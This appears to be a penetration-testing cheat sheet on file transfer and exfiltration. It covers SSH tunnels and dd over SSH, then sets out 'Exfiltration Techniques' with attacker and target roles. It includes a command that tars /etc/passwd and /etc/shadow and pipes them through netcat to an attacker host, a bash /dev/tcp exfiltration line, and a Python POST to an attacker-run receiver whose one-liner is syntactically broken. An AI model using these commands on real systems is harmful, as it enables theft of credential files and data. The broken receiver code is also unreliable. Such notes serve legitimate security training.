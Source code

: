 ## SSH-Based Transfers

### SCP through SSH Tunnel
```bash
# Create SSH tunnel first
ssh -L 8000:localhost:8000 user@pivot_host

# Then transfer through the tunnel
scp -P 8000 file localhost:/path/
```

### SSH File Transfer without SCP
```bash
# Using dd and ssh
dd if=file bs=8192 | ssh user@10.10.10.10 "dd of=/path/to/file"
```

## Exfiltration Techniques

### Tar and Netcat
```bash
# Sender (target)
tar czf - /etc/passwd /etc/shadow | nc 10.10.10.10 4444

# Receiver (attacker)
nc -lvnp 4444 | tar xzf -
```

### Using /dev/tcp
```bash
# Sender (bash-only method)
cat file > /dev/tcp/10.10.10.10/4444

# Receiver
nc -lvnp 4444 > file
```

## Python Transfer Methods

### Simple HTTP POST
```bash
# Receiver (Attacker)
python3 -c 'from http.server import HTTPServer, BaseHTTPRequestHandler; import cgi; class Handler(BaseHTTPRequestHandler): def do_POST(self): length = int(self.headers["Content-Length"]); content = self.rfile.read(length); with open("received_file", "wb") as f: f.write(content); self.send_response(200); self.end_headers(); print("File received"); server = HTTPServer(("0.0.0.0", 8000), Handler); server.serve_forever()'

# Sender (Target)
python3 -c 'import requests; requests.post("http://10.10.10.10:8000", data=open("file_to_send", "rb"))'
```
